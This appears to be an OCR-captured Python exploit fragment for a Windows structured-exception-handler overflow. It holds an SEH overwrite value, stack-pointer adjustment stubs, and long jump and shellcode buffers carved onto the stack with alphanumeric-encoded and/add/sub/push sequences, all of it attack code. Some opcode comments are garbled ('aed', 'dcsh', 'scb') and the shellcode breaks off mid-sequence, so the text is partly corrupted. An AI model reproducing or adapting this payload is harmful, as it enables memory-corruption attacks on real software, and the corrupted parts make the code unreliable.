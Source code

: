 ```python

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"

espAdj3 = '\x54\x58\x2c\x4b\x50\x5c'

shellcode = ""
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x51\x50\x50" ## add  eax, 0x50505136
shellcode += "\x05\x36\x51\x40\x40" ## add  eax, 0x40405136
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x26\x33\x06\x26" ## add  eax, 0x26063326
shellcode += "\x05\x26\x34\x05\x25" ## add  eax, 0x25053426
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x72\x41\x76\x73" ## add  eax, 0x73764172
shellcode += "\x05\x61\x41\x75\x64" ## add  eax, 0x64754161
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x13\x73\x53" ## add  eax, 0x53731343
shellcode += "\x05\x43\x12\x63\x43" ## add  eax, 0x43631243
shellcode += "\x05\x43\x12\x53\x42" ## add  eax, 0x42531243
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x30\x12\x32\x50" ## add  eax, 0x50321230
shellcode += "\x05\x30\x02\x41\x50" ## add  eax, 0x50410230
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x44\x41\x67" ## add  eax, 0x67414433
shellcode += "\x05\x32\x43\x32\x66" ## add  eax, 0x66324332
shellcode += "\x05\x22\x43\x31\x45" ## add  eax, 0x45314322
```